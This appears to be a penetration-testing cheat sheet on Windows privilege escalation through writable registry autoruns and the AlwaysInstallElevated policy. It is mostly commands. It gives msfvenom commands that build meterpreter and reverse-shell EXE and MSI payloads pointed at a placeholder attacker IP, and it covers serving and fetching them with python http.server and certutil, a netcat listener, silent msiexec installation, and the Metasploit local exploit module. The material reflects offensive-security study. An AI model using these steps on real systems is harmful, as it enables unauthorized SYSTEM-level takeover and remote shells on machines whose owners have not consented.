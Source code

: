 ## Escalation Path: Registry
**Autoruns**
- Check for if any [autoruns](https://learn.microsoft.com/en-us/sysinternals/downloads/autoruns) is available on the system.
- `Autoruns.exe`
- Analyse the programs and we can check their access with [accesschk64](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)
- `accesschk64.exe -wvu "C:\Program Files\Autorun Program"`
- If everyone has read, write access on file that automatically runs, we can make somebody else run it as administrator.
- Using Powerup.
	- `. .\PowerUp.ps1`
	- `Invoke-AllChecks`
	- Check the output: Checking for modifidable registry autoruns and configs
- Create a reverse payload
	- `msfvenom -p windows/meterpreter/reverse_tcp lhost=<attacker-IP> -f exe -o program.exe`
- Using metasploit
	- `use multi/handler`
  - `set payload windows/meterpreter/reverse_tcp`
  - `set lhost <attacker-ip>`
  - `run`
- Delivery
	- Move the program.exe on the windows machine
	- `python3 -m http.server 1337`
  - In windows machine, download the file under `C:\Program Files\Autorun Program`
- Once a high privilege user run the programs, a reverse shell is gained in metasploit

**AlwaysInstallElevated**
- The windows installer is a utility which through the use MSI packages can install new software. The AlawysInstallElevated is a Windows policy that allows unprivileged users to install software through the use of MSI packages using SYSTEM level permissions, which can be exploited to gain administrative access over a Windows machine.
- Check whether the required registry keys are enabled.
	- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
	- `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
	- The value in following registry keys has to be set to 1.
- Check using winpeas.
	- `winpeas.exe quiet systeminfo`
- Exploitation
	- Payload Generation
		- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f msi > shell.msi`
	- Delivery
		- `python3 -m http.server 1337`
	- Download
		- `certutil -urlcache -split -f "http://<attacker-ip>:1337/shell.msi" shell.msi`
	- Netcat Listener
		- `nc -lvnp 4444`
	- The following command can then be used to install the .msi file
		- `msiexec /quiet /qn /i shell.msi`
- Using Metasploit
	- In Meterpreter
		- `background`
		- `search alwaysinstallelevated`
		- `use /eploit/windows/local/always_install_elevated`
		- `set session 1`
		- `exploit`
- More on: https://steflan-security.com/windows-privilege-escalation-alwaysinstallelevated-policy/
